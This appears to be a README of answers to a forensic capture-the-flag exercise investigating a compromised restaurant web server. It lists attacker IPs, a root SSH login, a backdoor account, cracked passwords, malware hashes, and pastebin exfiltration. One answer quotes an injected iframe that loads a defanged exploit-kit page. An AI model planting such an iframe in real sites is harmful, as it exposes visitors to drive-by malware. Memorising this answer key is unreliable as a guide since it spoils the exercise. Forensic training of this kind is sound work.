 # Forensic-CTF---Bob-s-Chili-Burgers-Website-Hacked-
Forensic CTF
https://betweentwodfirns.blogspot.com/2016/06/forensic-ctf-bobs-chili-burgers-website.html

1. SHA 1: C67D36F2A8851FDF9BB3DE9FD0441B619E40C070
2. SSH (auth.log)
3. Ubuntu 14.04.4 LTS, Trusty Tahr (/etc/os-release)
4. IP that sucessfuly authenticated: 5.101.65.141, Country: Russian Federation, City: Saint Petersburg, Sankt-Peterburg
5. The accound "radvlad" was created at 00:11:03 UTC.
6. The server is listeing port 422.
7. The different countires represented by IPs in the web server log are USA, Canada, Switzerland, Seychelles, United Kingdom, and Russia for a total of 6. 

8. Copied directly from auth.log: 
Jun  1 20:03:45 BobsChili-ProdWeb1 sshd[2330]: Accepted password for root from 5.101.65.141 port 57188 ssh2
 UTC: Jun 2 00:03:45
 
9. The IP that failed directly before was 107.150.94.4.
10. The cronjob will fire on Mondays at 17:30.
11. The user account the attacker made is called "radvlad".
12. lqaz2wsx
13. asdzxc
14. The addition of "<iframe src="http://anecdote.roobaroo[.]org/xegblh2.html"></iframe>" to the site.
15. Win.Trojan.691128-1
16. SHA256 of setup.exe is 94EBD2AF4D1E1E4D01C4806CF1D94C44D24014DA0703424F864E5E8CD3396FB9
 *there was an attempt to wget a file before called hosts.exe, but this does not appear to be there or 
have been moved*
17. Angler
18. Secret-Recipe-Chili
19. pastebinit
20. pastebin.com


